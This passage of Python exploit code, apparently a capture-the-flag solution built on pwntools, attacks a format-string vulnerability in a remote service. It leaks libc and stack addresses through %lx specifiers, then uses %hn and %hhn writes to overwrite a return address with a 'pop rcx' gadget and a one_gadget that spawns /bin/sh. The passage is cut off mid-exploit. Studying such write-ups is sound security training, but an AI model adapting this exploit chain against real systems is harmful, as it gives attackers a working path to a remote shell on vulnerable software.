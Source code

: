 ```py
    else:
        return remote(HOST, PORT, **kw)


def pwn(level):
    io = conn(level=level)
    io.sendafter(b"Professional):", f"%21$lx.%25$lx".encode())
    io.recvuntil(b"You: ")
    libc_leak, stack_leak = io.recvline(keepends=False).split(b".")
    libc.address = int(libc_leak, 16) - (libc.symbols.__libc_start_call_main + 128)
    log.success(f"libc @ {hex(libc.address)}")
    stack_leak = int(stack_leak, 16)
    log.success(f"stack leak @ {hex(stack_leak)}")

    retaddr = stack_leak - (0x7FFFFFFFD738 - 0x7FFFFFFFD628)
    ptr_ptr = stack_leak - (0x7FFFFFFFD738 - 0x7FFFFFFFD648)
    ptr_ptr_offset = 25
    ptr_offset = 0x4D - 0x6 - 16
    log.success(f"retaddr @ {hex(retaddr)}")
    log.success(f"ptr_ptr @ {hex(ptr_ptr)}")
    pop_rcx = libc.address + 0x000000000008C6BB  # pop rcx; ret;
    one_gadget = libc.address + 0x50A37

    io.sendafter(
        b"Professional):",
        f"%{(stack_leak & 0xffff) - 0x180 + 3}c%{ptr_ptr_offset}$hn".encode(),
    )

    io.sendlineafter(b"Professional):", f"%{0xf0}c%{ptr_offset}$hhn".encode())

    """
    0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
    constraints:
      rsp & 0xf == 0
      rcx == NULL
      rbp == NULL || (u16)[rbp] == NULL
    """

    # pop rcx
    for i in range(6):
        io.sendafter(
            b"Professional):",
            f"%{(retaddr & 0xffff) + i}c%{ptr_ptr_offset}$hn".encode(),
        )
        io.sendlineafter(
            b"Professional):",
            f"%{(pop_rcx >> (8 * i)) & 0xff}c%{ptr_offset}$hhn".encode(),
        )

    # one_gadget
    for i in range(6):
        io.sendafter(
            b"Professional):",
            f"%{(retaddr & 0xffff) + 8 * 2 + i}c%{ptr_ptr_offset}$hn".encode(),
        )
        io.sendlineafter(
            b"Professional):",
            f"%{(one_gadget >> (8 * i)) & 0xff}c%{ptr_offset}$hhn".encode(),
        )

    # rbp to zero
    io.sendafter(
        b"Professional):",
```